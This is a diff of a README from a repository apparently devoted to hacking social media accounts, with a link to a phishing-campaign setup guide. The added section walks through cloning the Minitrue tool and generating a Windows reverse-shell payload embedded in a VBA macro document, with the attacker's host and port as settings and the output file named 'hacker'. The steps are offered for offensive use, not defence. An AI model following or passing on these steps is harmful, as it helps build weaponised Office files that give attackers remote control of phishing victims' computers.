

Before and after one commit to DevVj-1/Hacking-Social_Media-Accounts, a Markdown page: README.md, the part around the change printed below. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -79,3 +136,18 @@ https://www.hackercoolmagazine.com/gophish-setup-a-phishing-campaign/
+***Minitrue***
+```
+git clone https://github.com/X0RW3LL/Minitrue.git
+```
+```
+cd /opt/WindowsMacros/Minitrue
+./minitrue
+select a payload: windows/x64/shell_reverse_tcp
+select the payload type: VBA Macro
+LHOST=$yourIP
+LPORT=$yourPort
+Payload encoder: None
+Select or enter file name (without extensions): hacker
+```
+
 
 ## Disclaimer
 The files in this repository were created and modified by me,  for my own personal use and come with no guarantee to work for you. I provide these files "as-is" and offer no support whatsoever to get them working. A lot of these files use terrible formatted and layered tables, anyone working with email and newsletter designs knows how painful they can be, and how worse it is to reverse-engineer those.🦆
````
Also changed, not shown: other parts of README.md (+57 -0 lines).
